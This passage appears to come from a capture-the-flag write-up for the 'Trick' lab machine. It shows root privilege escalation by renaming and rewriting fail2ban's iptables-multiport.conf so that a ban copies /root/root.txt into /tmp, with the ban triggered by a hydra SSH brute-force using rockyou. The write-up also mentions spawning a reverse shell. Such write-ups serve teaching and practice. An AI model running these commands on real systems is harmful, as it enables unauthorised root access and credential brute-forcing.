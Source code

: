 The folder `action.d` has a group of `security`.
```bash
$ groups
michael security
```

And we're also part of that same group. The [Actions](https://www.fail2ban.org/wiki/index.php/MANUAL_0_8#Actions) directory is used to contain commands that are executed when someone is sent to jail. And even more specifically, the `iptables-multiport.conf` contains rules which are executed on a ban. And we can rename files in this directory. So while we can't directly modify the `iptables-multiport.conf` file, we can rename it and create a new file. Unfortunately it appears as though this directory is restored back to the original state very quickly, so I had to try this a few times before it eventually worked. I created a script to update the .conf file:
```bash
$ cat reset_conf.sh 
#!/bin/bash

mv -f /etc/fail2ban/action.d/iptables-multiport.conf{,.backup}
cat /etc/fail2ban/action.d/iptables-multiport.conf.backup | sed 's:^actionban.*$:actionban = cat /root/root.txt > /tmp/root.txt \&\& chmod 777 /tmp/root.txt:g' > /etc/fail2ban/action.d/iptables-multiport.conf
sudo /etc/init.d/fail2ban restart
```

Then I started a `hydra` session to brute force the login and force a ban:
```bash
$ hydra -l root -P /usr/share/wordlists/rockyou.txt trick.htb -t 4 ssh
```

After a while of trying this and restarting the `fail2ban` service with the above script, eventually the `/tmp/root.txt` file appeared:
```bash
$ ls -larth /tmp/root.txt 
-rwxrwxrwx 1 root root 33 Jun 24 19:42 /tmp/root.txt
```

Note that, instead of performing a cp operation, it would have been possible to start a reverse shell too, or chmod another file that can give you root.